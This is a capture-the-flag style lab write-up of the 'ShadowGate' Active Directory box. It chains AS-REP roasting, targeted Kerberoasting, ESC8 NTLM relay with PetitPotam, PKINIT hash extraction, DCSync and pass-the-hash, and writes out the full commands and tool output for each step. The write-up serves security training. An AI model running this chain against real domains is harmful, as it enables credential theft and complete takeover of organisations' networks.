








# ShadowGate

**Platform:** Hack Smarter Labs  
**Difficulty:** Medium  
**Topics:** AS-REP Roasting, Targeted Kerberoasting, AD CS ESC8, NTLM Relay (PetitPotam), PKINIT, DCSync

---

## Overview

ShadowGate simulates a post-acquisition internal penetration test against an Active Directory environment. The organisation recently absorbed a new network under tight operational deadlines, deferring security hardening. Starting with no credentials, the attack chain moves from unauthenticated enumeration through AS-REP roasting, BloodHound-guided targeted Kerberoasting, and full domain compromise by abusing AD CS ESC8 via authenticated NTLM relay.

**Attack Path:**
```
Nmap → IIS + AD CS (/certsrv) detected
→ SMB null session → 12 domain users enumerated
→ ASREPRoast jtrueblood (no creds required)
→ Hashcat (cracked) → Authenticated enumeration
→ BloodHound → jtrueblood GenericWrite over bbrown
→ Targeted Kerberoast bbrown → Hashcat (cracked)
→ Certipy → ESC8: web enrollment over HTTP (no signing)
→ ntlmrelayx + PetitPotam (authenticated coerce DC01$)
→ DC01$ certificate issued → certipy auth (PKINIT) → DC01$ NT hash
→ secretsdump DCSync → all domain hashes
→ evil-winrm as Administrator → Root (krbtgt NT hash)
```

---

## Target

| Host | IP | Role |
|------|-----|------|
| `DC01.shadow.gate` | `<DC_IP>` | Windows Domain Controller / CA |

---

## Service Enumeration

### Nmap

```
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft-IIS/10.0
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos
139/tcp   open  netbios-ssn?
389/tcp   open  tcpwrapped
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: SHADOW
|   NetBIOS_Domain_Name: SHADOW
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: shadow.gate
|   DNS_Computer_Name: DC01.shadow.gate
|   Product_Version: 10.0.20348

SSL cert issuer: commonName=shadow-DC01-CA/domainComponent=shadow
```

Key findings:
- **Domain:** `shadow.gate`
- **Hostname:** `DC01.shadow.gate`
- **OS:** Windows Server 2022 (Build 20348)
- **Port 80:** IIS 10.0 — unusual for a DC, worth enumerating
- **Port 3389:** RDP open externally
- **SSL issuer:** `shadow-DC01-CA` — an internal Certificate Authority is present

### Reading the Signals

Three findings from the Nmap output, each telling you something on its own — and more together:

**Port 80 — IIS on a DC:** Windows doesn't put IIS on a DC by default. Something was deliberately installed. Worth enumerating immediately.

**`/certsrv/` returning 401 (HTTP):** That path is the AD CS web enrollment interface — it only exists if AD CS is installed with the Web Enrollment role enabled. The 401 means NTLM authentication is in use over HTTP (not HTTPS). NTLM over HTTP is relayable; HTTPS would require channel binding and break the attack. HTTP makes ESC8 trivial.

**SSL issuer `shadow-DC01-CA` on LDAP:** The cert on port 636 was issued by an internal CA, and the DC is that CA. Combined with `/certsrv/`, this isn't AD CS running somewhere else on the network — it's running on the DC itself.

**Together:** IIS → enumerate. `/certsrv/` 401 over HTTP → AD CS web enrollment, NTLM relayable → ESC8 candidate. LDAP cert issuer → CA confirmed on the DC. The HTTP (not HTTPS) on `/certsrv/` is the key signal — it means ESC8 is on the table before you even have credentials.

---

## HTTP Enumeration (Port 80)



### Dirsearch

```
301  /aspnet_client
401  /certsrv/
```

Key finding: `/certsrv/` returns **401 Unauthorized** — AD Certificate Services (AD CS) web enrollment is deployed on the DC itself. The 401 means NTLM authentication is in use over HTTP (not HTTPS), which is the precondition for ESC8.



---

## SMB Enumeration

### Null Session

```bash
nxc smb <DC_IP> -u "" -p ""
```

```
[+] shadow.gate\:
```

Null session permitted. Share access denied, guest account disabled. RID brute-force blocked.



### User Enumeration (Null Session)

```bash
nxc smb <DC_IP> -u "" -p "" --users
```

12 domain accounts enumerated:

```
Administrator
Guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke
tclarke
jbradford
amoss
```



---

## Initial Access — AS-REP Roasting `jtrueblood`

AS-REP roasting targets accounts with **"Do not require Kerberos pre-authentication"** set — no password needed, only a valid username list.

```bash
nxc ldap dc01.shadow.gate -u users.txt -p '' --asreproast hashes.txt
```

```
LDAP  DC01  $krb5asrep$23$jtrueblood@SHADOW.GATE:caead45788330e72cd587bbe549cdd14$...
```

`jtrueblood` is AS-REP roastable. Crack offline:

```bash
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5asrep$23$jtrueblood@SHADOW.GATE:...:REDACTED
```

**Credentials: `jtrueblood:REDACTED`**



### Verify

```bash
nxc smb dc01.shadow.gate -u jtrueblood -p 'REDACTED' --shares
```

```
SMB  DC01  [+] SHADOW.GATE\jtrueblood:REDACTED
SMB  DC01  ADMIN$      NO ACCESS
SMB  DC01  C$          NO ACCESS
SMB  DC01  CertEnroll  READ
SMB  DC01  IPC$        READ
SMB  DC01  NETLOGON    READ
SMB  DC01  SYSVOL      READ
```

Notable: `CertEnroll` share is readable — confirms the CA.

---

## Domain Enumeration — BloodHound

```bash
nxc ldap dc01.shadow.gate -u jtrueblood -p 'REDACTED' \
  --bloodhound -c All --dns-server <DC_IP>
```

```
Bloodhound data collection completed in 0M 30S
```

**Key finding — `jtrueblood` has `GenericWrite` over `bbrown`:**

GenericWrite allows writing arbitrary attributes — most usefully, setting an SPN on the target account, enabling a **targeted Kerberoast** without requiring any special privilege.



---

## Lateral Movement — Targeted Kerberoast `bbrown`

With GenericWrite over `bbrown`, temporarily assign an SPN to make the account Kerberoastable, then request and crack the TGS ticket.

**Why this works:** When a Kerberos SPN is registered on an account, the KDC will issue a TGS ticket for that service encrypted with the **account's NT hash**. The requester never interacts with the account's password directly — they just ask the KDC for a ticket, and the KDC obliges. GenericWrite allows writing arbitrary LDAP attributes, including `servicePrincipalName`, so the attacker registers a fake SPN on `bbrown`, requests the TGS, receives a blob encrypted with bbrown's hash, then cracks it offline. `targetedKerberoast` automates the SPN write, ticket request, and cleanup in one shot.

**Tool:** [`targetedKerberoast`](https://github.com/ShutdownRepo/targetedKerberoast)

```bash
python3 ~/Tools/targetKerberoast/targetedKerberoast.py \
  -u jtrueblood -p 'REDACTED' -d shadow.gate \
  --dc-ip <DC_IP>
```

```
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$7ce933b9424f27a6cc71efc047215b97$...
```

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*bbrown$...:REDACTED
```

**Credentials: `bbrown:REDACTED`**

### BloodHound — `bbrown` Membership

`bbrown` is a member of **Certificate Service DCOM Access** — a useful BloodHound signal that confirms CA interaction rights, though ESC8 coercion only requires any valid domain account.





---

## AD CS Enumeration — Certipy

```bash
certipy find -u bbrown@shadow.gate -p 'REDACTED' -dc-ip <DC_IP>
```

```
Certificate Authorities: 1
  CA Name: shadow-DC01-CA
  DNS Name: DC01.shadow.gate
  Web Enrollment:
    HTTP: Enabled
    HTTPS: False
  Vulnerabilities:
    ESC8: Web Enrollment is enabled over HTTP
```

**ESC8 confirmed.** ESC8 is an AD CS misconfiguration where the web enrollment endpoint (`certfnsh.asp`) accepts NTLM authentication over HTTP. Because NTLM is relayable (no signing enforcement on HTTP), an attacker can relay any incoming NTLM authentication directly to this endpoint. If the relayed account is a domain computer account (e.g. DC01$), the attacker can request a DomainController certificate on its behalf — which can then be used to obtain a TGT via PKINIT, followed by a DCSync to dump all domain hashes.

Web enrollment is enabled over plain HTTP with no channel binding, so we can:

1. Coerce DC01$ into authenticating to our listener via MS-EFSRPC (PetitPotam)
2. Relay that NTLM auth to `/certsrv/certfnsh.asp`
3. Obtain a certificate for DC01$ (the machine account)
4. Use the certificate with PKINIT to retrieve DC01$'s NT hash
5. Use DC01$'s hash to DCSync the entire domain

---

## ESC8 Exploitation — NTLM Relay via PetitPotam

### Step 1 — Start the Relay Listener

```bash
sudo impacket-ntlmrelayx \
  -t http://<DC_IP>/certsrv/certfnsh.asp \
  -smb2support --adcs --template DomainController
```

### Step 2 — Coerce DC01$ Authentication (Authenticated MS-EFSRPC)

> The unauthenticated variant of PetitPotam (`EfsRpcOpenFileRaw`) is patched on this target — the authenticated path via `bbrown` is required.

```bash
python3 ~/Tools/PetitPotam/PetitPotam.py \
  -u 'bbrown' -p 'REDACTED' -d shadow.gate \
  <VPN_IP> <DC_IP>
```

```
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

The secondary EFS RPC function (`EfsRpcEncryptFileSrv`) is unpatched. Authentication coercion succeeded.

### Step 3 — Certificate Issued

Back in the relay listener:

```
[*] (SMB): Received connection from <DC_IP>, attacking target http://<DC_IP>
[*] http:///@<DC_IP> [1] -> Generating CSR...
[*] http:///@<DC_IP> [1] -> CSR generated!
[*] http:///@<DC_IP> [1] -> Getting certificate...
[*] http:///@<DC_IP> [1] -> GOT CERTIFICATE! ID 3
[*] http:///@<DC_IP> [1] -> Writing PKCS#12 certificate to ./DC01.shadow.gate.pfx
[*] http:///@<DC_IP> [1] -> Certificate successfully written to file
```

A certificate for `DC01.shadow.gate` (the machine account) is now in `./DC01.shadow.gate.pfx`.

---

## PKINIT — Obtaining DC01$ NT Hash

Use the certificate to authenticate as DC01$ and retrieve its NT hash via PKINIT (Kerberos certificate authentication).

**Why this works:** When a client authenticates with a certificate over PKINIT, the KDC still needs to support legacy NTLM-based services that require the account's NT hash. To enable this, the KDC embeds the NT hash inside the encrypted AS-REP response (the "PKINIT Unpac-the-Hash" technique). `certipy auth` decrypts that response using the certificate's private key and extracts the NT hash — no password brute-forcing, no lateral movement, just a protocol design artifact that trades convenience for security.

```bash
certipy auth -pfx DC01.shadow.gate.pfx -dc-ip <DC_IP>
```

```
[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*]     Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

**DC01$ machine account hash obtained.**

---

## Full Domain Compromise — DCSync

With the DC machine account hash, perform a DCSync to extract all domain credentials. Domain Controllers have replication rights by design — DC01$ can pull any object including `krbtgt`.

```bash
impacket-secretsdump -just-dc-ntlm \
  shadow.gate/'DC01$'@<DC_IP> \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:<REDACTED>'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\ATHENA:1103:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\mbrownlee:1104:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\bbrown:1109:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\jtrueblood:1110:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\jsmith:1112:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\clocke:1113:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\tclarke:1114:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\jbradford:1115:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
shadow.gate\amoss:1116:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

All domain credentials dumped. Domain fully compromised.

---

## Admin Shell — Pass-the-Hash via evil-winrm

```bash
nxc winrm dc01.shadow.gate \
  -u Administrator -H aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

```
WINRM  DC01  [+] shadow.gate\Administrator:<REDACTED> (Pwn3d!)
```

```bash
evil-winrm -i <DC_IP> -u Administrator \
  -H aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
shadow\administrator
```

---

## Root Flag

This lab requires submission of the `krbtgt` NT hash rather than a file flag:

```
krbtgt NT hash: REDACTED
```

---

## Summary

| Step | Technique | Tool |
|------|-----------|------|
| Service enumeration | Nmap full scan — IIS + AD CS detected | `nmap` |
| User enumeration | SMB null session RID cycling | `nxc` |
| Initial access | AS-REP Roast → offline crack | `nxc`, `Hashcat` |
| Domain enumeration | BloodHound ACL collection | `nxc`, `BloodHound` |
| Lateral movement | GenericWrite → Targeted Kerberoast `bbrown` → crack | `targetedKerberoast`, `Hashcat` |
| AD CS enumeration | ESC8 — web enrollment over HTTP | `Certipy` |
| Authentication coercion | Authenticated MS-EFSRPC via `bbrown` | `PetitPotam` |
| NTLM relay | Relay DC01$ auth → CA → DC01$ certificate | `impacket-ntlmrelayx` |
| PKINIT | Certificate → DC01$ NT hash | `Certipy` |
| Domain compromise | DCSync via DC01$ machine account | `secretsdump` |
| Root | Pass-the-hash → Administrator WinRM/evil-winrm | `evil-winrm` |
